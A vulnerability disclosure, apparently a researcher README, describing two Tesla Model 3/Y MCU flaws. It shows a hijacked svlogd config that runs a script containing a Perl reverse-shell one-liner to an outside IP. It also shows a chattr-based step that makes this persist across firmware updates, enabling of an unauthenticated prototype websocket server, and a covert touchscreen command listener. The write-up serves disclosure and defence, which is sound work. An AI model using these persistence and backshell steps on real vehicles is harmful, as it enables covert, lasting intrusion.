

# Persistent Backshell and Data Value Access via Log Config Hijack and Prototype Server

**CVE:** [CVE-2022-42005](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42005) (persistent log shell), [CVE-2022-42006](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42006) (prototype server data value access)
**CWE:** CWE-269 (Improper Privilege Management), CWE-284 (Improper Access Control)
**Submitted:** October 3, 2021
**Affected:** Tesla Model 3/Y (Intel MCU), likely Model S/X
**Kernel:** Linux ice 4.14.235-PLK #1 SMP PREEMPT (x86_64)
**Firmware:** 2021.32.22 (persists across firmware updates)
**Status:** Fixed
**Reward:** Bugcrowd bounty

## Testing Environment

| Field | Value |
|-------|-------|
| Vehicle | Tesla Model 3 |
| MCU | Intel Atom (x86_64) |
| Kernel | 4.14.235-PLK |
| Firmware | 2021.32.22 |
| Access | SSH (requires prior root access) |
| Date | October 2021 |

## Description

Two complementary vulnerabilities allow an attacker who has obtained root access to retain persistent access to the vehicle — even after the root vulnerability is patched or an SSH certificate expires. Together, they provide:

1. **A persistent backshell** under the `log` account that survives firmware updates
2. **Arbitrary data value manipulation** via the Tesla prototype_server, bypassing dbus access controls

## Persistence via svlogd Config Hijack (CVE-2022-42005)

Tesla vehicles use `svlogd` for log rotation across services in `/var/log/`. The log rotation config file supports a processor directive (`!`) that executes a command when logs are rotated.

By replacing the gzip compression command with a custom script, any service's log rotation becomes a trigger for arbitrary code execution under the `log` account.

### Modified config file

Navigate to a service directory (e.g., `/var/log/wpa_supplicant/`) and replace the `config` file:

```
# Default log configuration

# Overcommit log file size. OK because we specify min below.
s2048

# Max 10 log files
n10

# Min 5 logs. svlogd will remove old log files to this limit when /var/log fills and current can't be written.
N5

# Compress when rotated
!sh /var/log/wpa_supplicant/gzip.sh -c
0product-release: feature-2021.24.11-8-089de3edb7
```

The key change is replacing the standard `gzip` command with a call to `gzip.sh`, which opens a backshell and starts the command listener:

```bash
#!/bin/sh
perl -e 'use Socket;$i="192.168.37.167";$p=1719;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

bash /var/log/wpa_supplicant/listen.sh >commands.log &

gzip -c
```

### Making it persistent

Mark the config file as immutable while root access is still available:

```bash
chattr +i config
```

This ensures the modified config survives firmware updates. The backshell will be re-established each time log rotation occurs.



## Data Value Access via Prototype Server (CVE-2022-42006)

The `log` account cannot normally set data values — the dbus rejects `sdv` commands from non-privileged accounts:

```
2021-09-27_19:17:27.38147-0700 auth.notice: Sept 27 19:17:27 dbus-daemon[2893]:
[system] Rejected send message, 1 matched rules; type="method_call",
sender=":1.387" (uid=98 pid=28543 comm="dbus-send --system --type=method_call
--print-repl" label="/usr/local/bin/sdv (enforce)")
interface="com.tesla.Debug" member="set_data_value" ...
```

However, Tesla's `QtCarServer` includes a dormant `prototype_server` that provides unrestricted access to data values via a websocket interface. It is normally unused on production vehicles but can be enabled by adding the following to `/home/tesla/.Tesla/data/settings.conf`:

```ini
[prototype_server]
port=8082
debug=1
status_rate=1000
```

The prototype server uses websocket connections rather than HTTP REST. A set of shell scripts emulate a websocket client to interact with it:

- [tools/sdv](tools/sdv) — set a data value
- [tools/lv](tools/lv) — get a data value
- [tools/send.sh](tools/send.sh) — websocket framing

Usage:

```bash
# Set a data value
sh /var/log/wpa_supplicant/sdv GUI_serviceModePlus true

# Get a data value
sh /var/log/wpa_supplicant/lv GUI_serviceModePlus
```

## Access Code Interface

To make the persistence toolkit accessible without an active shell connection, a command listener script ([tools/listen.sh](tools/listen.sh)) monitors the Tesla Access Code input box — a UI element shown when holding down the car model icon on the touchscreen.

The script watches `/var/log/qtcar/current` for access code entries using `inotifywait` and dispatches commands based on the input:

- Enter `serviceplus` to set `GUI_serviceModePlus` to true
- Enter an IP address and port (e.g., `192.168.1.100:1719`) to open a backshell
- Enter `/GUI_dataValueName true` to set any data value
- Enter `?GUI_dataValueName` to query any data value

Results are displayed on the car's touchscreen via Tesla's notification API.

## Impact

These vulnerabilities allow an attacker who has obtained root access even once to retain persistent access to the vehicle indefinitely. The combined toolkit provides:

- A persistent backshell under the `log` account, surviving firmware updates
- The ability to set any data value on the vehicle, bypassing dbus access controls
- A covert command interface through the car's touchscreen
- Access to internal HTTP/telnet endpoints and Tesla's internal network through the vehicle

## Recommendations

- Validate the integrity of svlogd config files during firmware updates. Do not allow immutable flags on log configuration files.
- Remove or restrict the prototype_server functionality on production vehicles. If retained, require authentication for websocket connections.
- Monitor for unexpected `inotifywait` processes or unusual access code input patterns.

---

**Researchers:** Matthew C. Pilsbury, Alex Harbuzenko, Oleg Kutkov
Research conducted at SourceHat Labs Inc.
